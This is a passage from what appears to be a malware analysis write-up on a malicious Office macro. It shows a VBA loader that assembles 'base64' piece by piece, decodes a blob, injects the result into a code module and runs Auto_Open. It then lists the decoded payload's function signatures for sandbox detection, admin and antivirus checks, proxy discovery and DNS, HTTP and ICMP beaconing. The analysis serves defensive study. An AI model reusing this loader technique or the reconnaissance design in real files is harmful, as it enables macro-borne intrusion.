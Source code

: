     
        chckT = chckT + "ba"
        chckT = chckT + "s"
        chckT = chckT + "e6"
        chckT = chckT + "4"
    
        mlngCode.DataType = chckT
        mlngCode.Text = comStr
        blnCurrent = mlngCode.NodeTypedValue
        objectFile.CodeModule.AddFromString StrConv(blnCurrent, vbUnicode)
        errDesktop.Run ("Auto_Open")
    

### Decoded

I pulled out the blob and decoded it twice. The resulting code seems to be
completely unobfuscated.

#### Function Names

To start, looking at the list of function names, there’s a good bit to do with
networking, as well as some other really interesting ones like `Sandbox`,
`IsLocalAdmin`, `IsOutlookRunning`, `GetAV`, `GetProxy`:

    
    
    Private Declare Function IcmpCreateFile Lib "icmp.dll" () As Long
    Private Declare Function IcmpCloseHandle Lib "icmp.dll" _
    Private Declare Function IcmpSendEcho Lib "icmp.dll" _
    Private Declare Function WSAGetLastError Lib "wsock32" () As Long
    Private Declare Function WSAStartup Lib "wsock32" _
    Private Declare Function WSACleanup Lib "wsock32" () As Long
    Private Declare Function gethostname Lib "wsock32" _
    Private Declare Function gethostbyname Lib "wsock32" _
    Private Declare Function inet_addr Lib "wsock32" _
    Private Declare Function DnsQuery Lib "dnsapi" Alias "DnsQuery_A" (ByVal strname As String, ByVal wType As Integer, ByVal fOptions As Long, ByVal pServers As Long, ppQueryResultsSet As Long, ByVal pReserved As Long) As Long
    Private Declare Function DnsRecordListFree Lib "dnsapi" (ByVal pDnsRecord As Long, ByVal FreeType As Long) As Long
    Function Main()
    Function SandBox()
    Function GetMethodType(myWebsite)
    Function BuildQuery() As String
    Function InitHTTP(myWebsite, objHTTP, sText)
    Function InitHTTPS(myWebsite, sText)
    Function TestDNS()
    Function TestHTTP(objHTTP, myWebsite)
    Function TestHTTPS(myWebsite)
    Function TestICMP(strHost)
    Function IsLocalAdmin(objSysInfo)
    Function IsOutlookRunning(objWMIService)
    Function GetUser(objSysInfo)
    Function GetDomain(objWMISvc, colItems)
    Function GetAV(colItemsAV)
    Function GetProxy(oReg)
    Function btoa(sourceStr)
    Private Function QueryDNS(sAddr As String) As Boolean
    Private Function sendPing(Adrr, text) As Boolean
    Private Function Ping(sAddress As String, _
    Private Function SocketsInitialize() As Boolean
    Private Function GetStatusCode(status As Long) As String
    